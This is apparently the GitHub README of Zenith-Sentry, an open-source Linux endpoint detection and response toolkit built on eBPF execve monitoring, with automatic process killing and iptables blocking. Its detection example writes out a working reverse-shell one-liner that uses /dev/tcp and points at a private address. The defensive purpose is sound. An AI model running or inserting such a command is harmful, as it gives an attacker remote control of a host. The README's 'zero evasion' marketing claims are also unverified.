

<p align="center">
  
</p>

<h1 align="center">Zenith-Sentry EDR v2.0</h1>

<p align="center">
  <i>A Production-Ready, Open-Source Endpoint Detection & Response (EDR) Toolkit for Linux</i>
  <br/>
  <i>Built with an "Assume Breach" philosophy — Hunt threats before they hunt you.</i>
</p>

<p align="center">
  
  
  
  
  
</p>

---

## 📖 Overview
Zenith-Sentry is a **host-based intrusion detection and forensic toolkit** for Linux. It **actively hunts** for behavioral anomalies, in-memory execution patterns, and suspicious persistence mechanisms, mapping all findings directly to the **MITRE ATT&CK framework**.

**Core Philosophy:** "Assume Breach" — Treat every host as compromised and hunt for the artifacts of infection.

---

## 🌟 What's New in v2.0 (Hardened)
- **🛡️ Active Mitigation Engine**: Real-time containment via `SIGKILL` and `IPTables`.
- **⚡ Unified eBPF Monitor**: Seamless kernel-level visibility for process and network events.
- **🚀 Dependency Enforcement**: Automated environment verification for `sudo` reliability.
- **🧹 Clean Slate Logic**: Production-sanitized codebase (zero comments, zero metadata).

---

## ⚡ Rapid Deployment
The quickest path to a protected host:
```bash
git clone https://github.com/syed-sameer-ul-hassan/Zenith-Sentry.git
cd Zenith-Sentry
./start.sh
```
*`start.sh` handles virtual environment creation, dependency installation, and TUI launch automatically.*

---

## 🏗️ Architecture & Project Structure
Zenith-Sentry uses a decoupled, event-driven architecture designed for high-performance telemetry processing.

<details>
<summary><b>📂 View Full Directory Layout & Technical Manifest</b></summary>

```text
Zenith-Sentry/
├── main.py                    # Multi-component CLI Entry Point
├── gui.py                     # Premium Interactive TUI (Curses)
├── process_execve_monitor.py  # eBPF Kernel Monitor (Python Logic)
├── start.sh                   # Automated Setup & Launcher
├── install_ebpf_deps.sh       # BCC Dependency Installer
├── config.yaml                # Global Security Policies
├── logo.svg                   # Brand Identity
├── zenith/                    # Core Subsystem Package
│   ├── engine.py              # Central Orchestration Engine
│   ├── collectors.py          # Telemetry Collection Layer
│   ├── core.py                # Data Models & Finding Interfaces
│   ├── ebpf/                  # Kernel-Space Source
│   │   ├── execve_monitor.c   # BPF C Program (Probes)
│   │   └── README.md          # eBPF Technical Reference
│   └── plugins/               # Extensible Detection Layer
│       ├── detectors.py       # Built-in Process Analysis
│       └── ebpf_detector.py   # eBPF-to-Finding Integration
└── README.md                  # Comprehensive Production Guide
```

**Project Scale:**
- **Core Engine**: `zenith/*.py` (~14KB)
- **UI Layer**: `main.py`, `gui.py` (~11KB)
- **eBPF Layer**: `process_execve_monitor.py`, `.c` (~19KB)
- **Setup Scripts**: `start.sh`, `install_ebpf_deps.sh` (~11KB)

</details>

### How a Scan Works


---

## 🛡️ Hardened Security Engine (eBPF + Mitigation)
Zenith-Sentry v2.0 integrates kernel-level visibility with proactive response.

### ⚡ Kernel-Level Visibility
Captured via the `sys_execve` tracepoint, providing zero-evasion visibility:
- **Zero Evasion**: Captures binary execution *before* the process starts.
- **Full Context**: Captures PID, PPID, UID, GID, and technical metadata.
- **Performance**: ~1-2 microseconds per event, <1% CPU impact.

### 🛡️ Active Threat Mitigation
When a high-risk signature is matched (e.g., unauthorized reverse shell):
1. **Neutralize**: Automatically send `SIGKILL` to the offending process.
2. **Contain**: Append `IPTables` rules to block the destination C2 IP.
3. **Log**: Forensic evidence recorded in `user_data/` for incident response.

---

## 🚀 Advanced Command Reference
Direct control for security engineers and automated workflows.

### 🛰️ eBPF Kernel Monitor (Standalone)
Monitor every binary execution on the system in real-time.
```bash
# Human-readable live stream
sudo python3 process_execve_monitor.py --human

# Production JSON stream for SIEM ingestion
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c
```

### 🔍 Zenith Engine CLI
Primary interface for automated hunting and scheduled scans.
```bash
# Full behavioral system scan with eBPF enabled
sudo python3 main.py full-scan --ebpf --json

# Scan specific components with filters
python3 main.py process --risk-threshold 75 --verbose
```

### 🛠️ Configuration & Policies
Managed in `config.yaml`:
- **`safe_mode`**: Set to `false` (default: `true`) to enable live `SIGKILL` mitigation.
- **`suspicious_ports`**: Define environment-specific high-risk ports.
- **`scan_dirs`**: Customize persistence hunting paths.

---

## 📈 Functional Proofs (PoC)
Real-world evidence of v2.0 protection.

#### [CASE 1] Detection of Reverse Shell
**Input:** `sh -i >& /dev/tcp/10.0.0.1/4444 0>&1`
**Zenith Output:**
```text
[!] ALERT: HIGH RISK - Command & Control Pattern
    - PID      : 8241
    - Action   : Reverse Shell string matched
    - RISK     : CRITICAL (100/100)
```

#### [CASE 2] Active Neutralization
If `--enforce` is active, the threat is killed instantly.
```text
[MITIGATION] THREAT DETECTED — Neutralizing PID 8241
[MITIGATION] SIGKILL sent. PID 8241 terminated.
[MITIGATION] Remote IP 10.0.0.1 blocked via IPTables rules.
```

---

## 🔧 Requirements & Support
- **Python**: 3.8+ (Automated via `start.sh`)
- **Kernel**: 4.8+ (5.8+ recommended for Ring Buffer support)
- **Privileges**: Root required for eBPF and Mitigation features.
- **eBPF Support**: Run `sudo bash install_ebpf_deps.sh` if BCC/headers are missing.

---

<p align="center">
  <b>Built for Linux defenders. Optimized for the modern threat landscape.</b>
  <br/>
  MIT License | v2.0 Flagship Edition
</p>
